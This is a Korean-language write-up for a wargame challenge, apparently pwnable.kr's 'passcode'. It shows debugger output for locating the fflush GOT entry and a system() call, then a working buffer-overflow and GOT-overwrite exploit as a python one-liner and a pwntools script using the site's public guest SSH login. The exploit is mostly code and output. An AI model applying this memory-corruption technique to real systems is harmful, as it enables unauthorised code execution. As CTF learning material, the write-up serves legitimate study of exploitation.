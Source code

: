 `fflush@plt` 주소는 `0x8048430` 이다.

```
gdb-peda$ x/3i 0x8048430
   0x8048430 <fflush@plt>:      jmp    DWORD PTR ds:0x804a004
   0x8048436 <fflush@plt+6>:    push   0x8
   0x804843b <fflush@plt+11>:   jmp    0x8048410
```

`fflush@got`  주소는 `0x804a004` 이다.

-----

```c
system("/bin/cat flag");
```

그리고 system 함수로 flag를 출력하는 코드 영역 부분의 주소를 구해야 한다.

```
gdb-peda$ pdisas login
Dump of assembler code for function login:
   ----생략----
   0x080485e3 <+127>:   mov    DWORD PTR [esp],0x80487af
   0x080485ea <+134>:   call   0x8048460 <system@plt>
   ----생략----
End of assembler dump.
```

system함수를 실행하기 위한 부분은 `0x080485e3` 주소이다.

-----

이제 준비는 끝났다.

name배열의 마지막 4byte에 `fflush@got`주소를 넣고 사용자로부터 passcode1의 입력을 받을 때, system코드 주소(`0x080485e3`)를 입력하면 된다.

> 0x080485e3 = 134514147

-----

### 0x01. Exploit

```
passcode@prowl:~$ (python -c 'print "A"*96+"\x04\xa0\x04\x08"';cat)|./passcode
Toddler's Secure Login System 1.0 beta.
enter you name : Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA♦�!
134514147
Sorry mom.. I got confused about scanf usage :(
enter passcode1 : Now I can safely trust you that you have credential :)
```

##### python

```python
from pwn import *

conn = ssh("passcode", "pwnable.kr", port=2222, password="guest")
p = conn.process("./passcode")

fflush_got = 0x804a004
system = 0x80485e3

payload  = "A"*96
payload += p32(fflush_got)

p.recv()
p.sendline(payload)
p.recv()
```